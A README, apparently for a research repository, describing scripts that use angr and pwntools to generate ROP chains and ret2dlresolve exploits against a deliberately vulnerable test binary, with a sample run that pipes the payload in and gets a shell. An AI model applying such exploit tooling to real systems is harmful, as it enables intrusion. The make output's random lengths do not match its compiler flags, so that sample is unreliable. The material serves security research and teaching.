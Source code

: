 This is the accompanying code to the blog post talking about 
automated rop chain generation.

Build the test file with:
```
make
```

Install the dependencies:
```
pip3 install pwntools angr
```

Run the rop chain generator:
```
./auto_rop_chain.py ./buffer_overflow_64bit
```

Verify it works:
```
# You will need to hit enter twice, since angr didn't add
# a new line to the pwn input.
$ cat ./pwn_input - | ./buffer_overflow_64bit
pwn_me:
Your buffer is at 0x7fffffffd910

ls
Makefile  auto_rop_chain.py  buffer_overflow.c  buffer_overflow_64bit  pwn_input  readme.md
```

## ret2dlresolve solver

Note that the make target will generate a binary with
a random buffer length and read length.
```
$ make dlresolve
--- Random buffer length is 40 ---
--- Random read length is 170 ---
gcc -fno-stack-protector -no-pie \
buffer_overflow_dlresolve.c \
-o buffer_overflow_64bit_dlresolve \
-Wno-nonnull \
-DRAND_BUF_LEN=54 \
-DRAND_READ_LEN=177
```
The rop chain generator will still make short work of it:
```
python auto_rop_chain_dlresolv.py ./buffer_overflow_64bit_dlresolve
```

[![asciicast](https://asciinema.org/a/463780.svg)](https://asciinema.org/a/463780)